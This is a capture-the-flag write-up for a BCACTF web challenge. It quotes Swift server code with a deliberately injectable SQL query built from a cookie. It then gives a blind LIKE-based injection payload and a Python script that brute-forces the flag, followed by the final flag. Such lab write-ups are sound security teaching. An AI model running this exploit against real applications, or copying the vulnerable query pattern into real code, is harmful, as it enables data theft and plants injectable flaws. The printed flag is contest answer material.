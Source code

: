 # Blatant SQLi

Challenge Description:

> blah blah blah something something yusuf are you happy now

> Addendum: The flag has no uppercase letters.

> Hint1: What kind of feedback does the server give?

## Analyzing the website

```
func routes(_ app: Application) throws {
    app.get { req -> EventLoopFuture<Vapor.View> in
        var result: String?
        let content = req.cookies.all["flag"]?.string ?? ""
        
        do {
            for _ in try db.prepare("SELECT * FROM flags WHERE flag='\(content)'") {
                result = "yes"
            }
        } catch {
            result = "bad"
        }
        
        return req.view.render("index", ["result": result ?? "no"])
    }
}
```

The cookie named flag is used in the query below and there is a sql injection because there is no usage of prepared statements.  
A blind injection is needed here using the LIKE operator with % to bruteforce the flag character by character.

Payload --> `' or flag like \'{flag + char}%`  

We can automate this by using the script below which iterates through almost all the printable characters and finds the correct characters of the flag.

```python
import requests
import string

var = True
status = 0
flag = ''
url = f"http://web.bcactf.com:49213/"

printable = 'abcdefghijklmnopqrstuvwxyz0123456789}{['

while(var):
	for char in printable:
		print(f"Trying char --> {char}")
		payload = f"' or flag like \'{flag + char}%"

		cookies = {'flag' : payload}		

		r = requests.get(url , cookies = cookies)
		if "yes" in r.text:
			flag += char
			print(f"Got flag --> {flag}")
			if char == "}":
				print(f"Flag done --> {flag}")
				status = 1
			break

	if(status):
		break
		
	if(char == "["):
		print("_ here mostly")
		flag += '_'
```

Final Flag --> `bcactf{you_didnt_see_that_coming_q7ujtvr8q6zt}`

## References

This chall is very similar to the blinder_eye ctf challenge writeup i made recently.  
https://github.com/goku007xx/CTF-Writeups/blob/main/2022/UA_CWS_CTF/blinder_eye/writeup.md